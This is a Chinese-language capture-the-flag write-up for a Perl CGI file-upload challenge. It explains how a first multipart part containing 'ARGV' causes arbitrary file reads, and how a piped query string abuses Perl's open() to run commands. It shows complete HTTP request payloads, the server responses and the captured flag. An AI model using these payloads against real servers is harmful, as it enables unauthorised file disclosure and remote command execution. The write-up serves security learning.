 xmax-web-i-got-id-200

打开网站，发现Files选项进去以后可以上传文件，submit按钮作用是将上传的文件内容显示在下面

点击Hello World栏会提示`Hello World from Perl!`看出使用**perl**语言写的

根据perl的语法猜测这个文件上传是这样写的

```per
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    while (<$file>) {
        print "$_";
        print "<br />";
    }
}
```

**漏洞在param()**

`my $file = $cgi->param('file');`

> param() returns a **LIST of ALL** the parameter values but **only** **the first value is inserted into $file**

`while (<$file>)`

>“`<>`” doesn’t work with strings unless the string is **“ARGV”**, so it loops through the ARG values and inserting each one to an `open()` call
>**=> We can read content of any file by assign the scalar value first, so $file will be assigned our scalar value instead of the uploaded file descriptor**

param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的file变量中。而对于下面的读文件逻辑来说，如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。这样，我们的利用方法就出现了：在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，这样就可以读取任意文件了。

注意ARGV是PERL默认用来接收参数的数组,不管脚本里有没有把它写出来,它始终是存在的。



> 所以可以通过上传多个文件，第一个文件内容是`ARGV`，并在url上附上参数来达到这个目的。

单独上传一次文件，burpsuit截取的包是这样的

>POST /cgi-bin/file.pl HTTP/1.1
>Host: 111.198.29.45:43313
>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
>Referer: http://111.198.29.45:43313/cgi-bin/file.pl
>Content-Type: multipart/form-data; boundary=---------------------------13271546801723549018281431143
>Content-Length: 347
>Connection: close
>Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
>Upgrade-Insecure-Requests: 1
>
>-----------------------------13271546801723549018281431143
>Content-Disposition: form-data; name="file"; filename="1.py"
>Content-Type: text/x-python-script
>
>123
>
>-----------------------------13271546801723549018281431143
>Content-Disposition: form-data; name="Submit!"
>
>Submit!
>-----------------------------13271546801723549018281431143--

要一起上传2个文件，且第一个文件的内容是ARGV的话，只要把与file有关的头和分隔复制一下即可

```txt
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; 
Content-Type: text/x-python-script

ARGV
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; filename="1.py"
Content-Type: text/x-python-script

123

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------13271546801723549018281431143--
```



**open() in Perl**

> Let me talk about **Perl’s open()** function. This function can also execute commands, because it is used to open pipes. In this case, you can use | as a delimiter, because Perl looks for | to indicate that open() is opening a pipe. An attacker can hijack an open() call which otherwise would not even execute a command by adding a | to his query.



构造查找flag位置的请求头：

```txt
POST /cgi-bin/file.pl?find%20/%20-iname%20flag%20%23| HTTP/1.1
Host: 111.198.29.45:43313
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://111.198.29.45:43313/cgi-bin/file.pl
Content-Type: multipart/form-data; boundary=---------------------------13271546801723549018281431143
Content-Length: 498
Connection: close
Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
Upgrade-Insecure-Requests: 1

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; 
Content-Type: text/x-python-script

ARGV
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; filename="1.py"
Content-Type: text/x-python-script

123

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------13271546801723549018281431143--
```

响应：

```txt
HTTP/1.1 200 OK
Date: Sat, 03 Aug 2019 04:52:10 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 562

<!DOCTYPE html
	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"
>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" xml:lang="en-US">
	<head>
		<title>Perl File Upload</title>
		<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	</head>
	<body>
		<h1>Perl File Upload</h1>
		<form method="post" enctype="multipart/form-data">
			File: <input type="file" name="file" />
			<input type="submit" name="Submit!" value="Submit!" />
		</form>
		<hr />
/flag
<br /></body></html>
```

即flag文件在`/flag`里

构造查看flag的请求头：

```txt
POST /cgi-bin/file.pl?cat%20/%20/flag%20%23| HTTP/1.1
Host: 111.198.29.45:43313
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://111.198.29.45:43313/cgi-bin/file.pl
Content-Type: multipart/form-data; boundary=---------------------------13271546801723549018281431143
Content-Length: 498
Connection: close
Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
Upgrade-Insecure-Requests: 1

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; 
Content-Type: text/x-python-script

ARGV
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; filename="1.py"
Content-Type: text/x-python-script

123

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------13271546801723549018281431143--
```

响应：

```txt
HTTP/1.1 200 OK
Date: Sat, 03 Aug 2019 04:53:39 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 601

<!DOCTYPE html
	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"
>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" xml:lang="en-US">
	<head>
		<title>Perl File Upload</title>
		<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	</head>
	<body>
		<h1>Perl File Upload</h1>
		<form method="post" enctype="multipart/form-data">
			File: <input type="file" name="file" />
			<input type="submit" name="Submit!" value="Submit!" />
		</form>
		<hr />
cyberpeace{edaa0b9311a29dd3bfbf176adcb61e53}
<br /></body></html>
```

p.s `%23`为`#`的url编码
